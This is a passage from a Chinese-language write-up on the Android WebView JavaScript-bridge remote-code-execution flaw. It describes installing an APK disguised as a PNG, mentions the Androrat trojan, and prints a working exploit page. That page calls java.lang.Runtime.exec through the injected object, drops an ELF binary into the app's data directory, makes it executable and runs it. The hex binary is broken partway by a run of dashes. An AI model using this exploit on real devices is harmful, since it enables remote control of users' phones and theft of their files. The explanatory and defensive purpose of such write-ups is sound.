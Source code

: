 由下图可得知我们已经拼接成了一个APK程序，并伪装成一张png图片： 

![图例](png/webview_rce_3.png)

 由下图可知，我们已经成功安装fake.png APK程序： 

![图例](png/webview_rce_4.png)

 例如网上流行的Androrat远程控制程序，攻击者利用上述漏洞即可简单的安装此远程控制木马应用APK即可达到远程控制用户手机的目的。 

 利用漏洞拼接可执行ELF程序，并执行该ELF程序达到为所欲为的目的，博文Abusing WebView JavaScript Bridges

【3】还实现了在非root情况下利用ELF可执行程序偷取sdcard的文件的POC，由此可见，该漏洞的危害性极大： 

 EXP的JavaScript代码： 

```html
<html>
 <body>
  <script> 
   function execute(cmdArgs)
   {
    return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
   }
   var bin = "\x7F\x45\x4C\x46\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x28\x00\x01\x00\x00\x00\xE4\x83\x00\x00\x34\x00\x00\x00\x58\x21\x00\x00\x00\x00\x00\x05\x34\x00\x20\x00\x08\x00\x28\x00\x18\x00\x17\x00\x06\x00\x00\x00\x34\x00\x00\x00\x34\x80\x00\x00\x34\x80\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x04\x00\x00\x00\x03\x00\x00\x00\x34\x01\x00\x00\x34\x81\x00\x00\x34\x81\x00\x00\x13--------------------------------------------------------------------------------------------------------------------------------\x00\x00\x00\x00\xD4\x00\x00\x00\x03\x00\x00\x70\x00\x00\x00\x00\x00\x00\x00\x00\x44\x20\x00\x00\x2D\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x71\x20\x00\x00\xE4\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00";
   execute(["/system/bin/sh","-c","echo '" + bin + "'   /data/data/com.example.hellojs/testBin"]);
   execute(["chmod","755","/data/data/com.example.hellojs/testBin"]);
   var res = execute(["/data/data/com.example.hellojs/testBin"]);
   document.write(getContents(res.getInputStream()));
  </script>
 </body>
</html>
```

 “testBin”文件已拼接生成，如下图所示：

![图例](png/webview_rce_5.png)

